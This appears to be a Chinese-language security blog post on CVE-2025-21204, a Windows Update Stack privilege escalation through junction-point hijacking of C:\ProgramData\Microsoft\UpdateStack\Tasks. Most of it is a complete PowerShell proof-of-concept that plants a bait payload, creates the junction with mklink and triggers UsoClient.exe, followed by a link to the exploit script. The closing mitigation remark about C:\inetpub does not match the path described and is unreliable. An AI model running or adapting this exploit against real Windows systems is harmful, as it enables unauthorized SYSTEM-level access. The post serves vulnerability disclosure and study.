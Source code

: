 #  CVE-2025-21204：通过 Windows 更新堆栈中的不当链接跟踪进行权限提升   
 Ots安全   2025-04-18 09:32  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
网址  
- https://cyberdom.blog/abusing-the-windows-update-stack-to-gain-system-access-cve-2025-21204/  
  
目标  
  
使用 2025 年 4 月更新之前的更新堆栈的 Windows  
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-21204/  
  
解释  
  
CVE-2025-21204 是 Windows 更新堆栈中的一个本地权限提升漏洞，当具有 SYSTEM 权限的进程（例如）执行更新时会发生该漏洞  
MoUsoCoreWorker.exe。  
UsoClient.exe在更新过程中，  
C:\ProgramData\Microsoft\UpdateStack\Tasks路径中的脚本或二进制文件由具有  
 SYSTEM 权限的进程执行。此时，如果文件夹的权限设置不正确，攻击者可以删除该文件夹，并将其替换为与payload所在文件夹的连接，从而通过以下过程实现权限提升。  
1. 将有效负载（例如 PowerShell 脚本）放置在攻击者可以控制的路径上。  
  
1. C:\ProgramData\Microsoft\UpdateStack\Tasks删除并替换为连接到在 1 中生成有效载荷的路径的连接点。  
  
1. 通过计划任务或直接触发更新来创建诸如 、UsoClient.exe、MoUsoCoreWorker.exe等流程。TiWorker.exe  
  
1. 当生成的进程执行有效载荷时，就会发生权限提升。  
  
下面是用   
PowerShell 编写的  
PoC，演示了此行为，创建具有系统权限的文件并从而提升权限。  
  
```
<#.SYNOPSIS    CVE-2025-21204 exploit simulation for non-admin users via junction-based path hijack..DESCRIPTION    Drops a bait payload in a user-controlled directory, creates a junction to hijack the Update Stack path,    and triggers the update process to testif SYSTEM accesses the payload.    The script provide the poc that allows to run this actions. .AUTHOR    Elli Shlomo#># Paths$trapPath      = "$env:APPDATA\Microsoft\UpdateStack\Tasks"$updateStackRealPath = "C:\ProgramData\Microsoft\UpdateStack\Tasks"$payloadPath   = "$trapPath\UpdateStackAgent.dll"$proofPath     = "C:\Users\Public\cve2025-proof.log"$logPath       = "$env:APPDATA\CVE2025\simulation.log"$evidencePath  = "$env:APPDATA\CVE2025\evidence.txt"$verdictPath   = "$env:APPDATA\CVE2025\vulnerable.txt"$verboseLog    = "$env:TEMP\cve2025-verbose.log"# IntroWrite-Host "`n[*] CVE-2025-21204 Exploit Simulation (Non-Admin)"Write-Host "[*] Trap directory : $trapPath"Write-Host "[*] Payload DLL path : $payloadPath"Write-Host "[*] SYSTEM proof file : $proofPath"Write-Host "[*] Simulation log : $logPath"Write-Host "[*] Evidence file : $evidencePath"Write-Host "[*] Verdict result : $verdictPath"Write-Host "[*] Verbose transcript : $verboseLog`n"# Start transcriptStart-Transcript -Path $verboseLog -Force# Ensure directories existWrite-Host "[*] Creating necessary directories..."New-Item -Path $trapPath -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-NullNew-Item -Path (Split-Path $logPath) -ItemType Directory -Force -ErrorAction SilentlyContinue | Out-NullWrite-Host "[+] Directories ready.`n"# Payload content$payload = @"Payload executed by SYSTEM at: $(Get-Date)"@# Write bait payloadWrite-Host "[*] Writing payload to: $payloadPath"$payload | Out-File -FilePath $payloadPath -Encoding ASCII$payload | Out-File -FilePath $proofPath -AppendWrite-Host "[+] Payload written.`n"# Simulation metadata log$log = @"CVE-2025-21204 Exploit Simulation-------------------------------------Date : $(Get-Date)Payload File : $payloadPathHijack Path : $updateStackRealPathProof File : $proofPath"@Set-Content -Path $logPath -Value $log -Encoding UTF8 -ForceWrite-Host "[+] Simulation metadata saved.`n"# Attempt junction creation (non-admin safe)Write-Host "[*] Attempting junction (no admin)..."if (-not (Test-Path $updateStackRealPath)) {    try {        $cmd = "cmd.exe /c mklink /J `"$updateStackRealPath`" `"$trapPath`""        Start-Process -FilePath "cmd.exe" -ArgumentList "/c mklink /J `"$updateStackRealPath`" `"$trapPath`"" -NoNewWindow -Wait        Write-Host "[+] Junction created: $updateStackRealPath → $trapPath"    } catch {        Write-Host "[-] Failed to create junction: $_"    }} else {    Write-Host "[!] Target path already exists: $updateStackRealPath"    Write-Host "[-] Cannot create junction unless folder is removed by SYSTEM update cleanup."}Write-Host ""# Trigger updateWrite-Host "[*] Triggering UsoClient.exe (StartScan)..."try {    Start-Process UsoClient.exe -ArgumentList StartScan -WindowStyle Hidden    Write-Host "[+] UsoClient.exe started.`n"} catch {    Write-Host "[-] Failed to trigger UsoClient.exe: $_"}# Monitor for SYSTEM processWrite-Host "[*] Monitoring for SYSTEM process MoUsoCoreWorker.exe..."$found = $falsefor ($i = 1; $i -le 6; $i++) {    Start-Sleep -Seconds 5    Write-Host "[=] Attempt ${i}: Checking..."    if (Get-Process -Name "MoUsoCoreWorker" -ErrorAction SilentlyContinue) {        Write-Host "[!] SYSTEM process detected: MoUsoCoreWorker.exe"        $found = $true        break    }}Start-Sleep -Seconds 5# Check for successWrite-Host "`n[*] Analyzing payload execution..."if (Test-Path $proofPath) {    $owner = (Get-Acl $proofPath).Owner    $timestamp = (Get-Item $proofPath).LastWriteTime    $details = @"[+] Exploit successfulPayload executed as: $ownerLast Modified: $timestamp"@    Set-Content -Path $verdictPath -Value $true    Write-Host "[✓] SUCCESS: SYSTEM likely accessed the payload."} else {    $details = @"[!] Exploit failedNo proof file found.Time: $(Get-Date)"@    Set-Content -Path $verdictPath -Value $false    Write-Host "[✗] FAILURE: Payload was not executed by SYSTEM."}# Save evidenceSet-Content -Path $evidencePath -Value $details -Encoding UTF8Write-Host "[*] Forensic evidence saved: $evidencePath"# EndStop-TranscriptWrite-Host "`n[✓] Simulation complete. See verbose log: $verboseLog`n"
```  
  
  
在修补此漏洞的 2025 年 4 月更新中，作为针对此类攻击的缓解措施，  
C:\inetpub 应用了默认 ACL 来预先创建可用于攻击的文件夹，使其无法用于链接跟踪攻击。  
  
poc  
  
https://raw.githubusercontent.com/eshlomo1/CloudSec/refs/heads/main/Attacking%20the%20Cloud/CVE-2025-21204/Exploit-CVE2025-UpdateStackLPE-NonAdmin.ps1  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
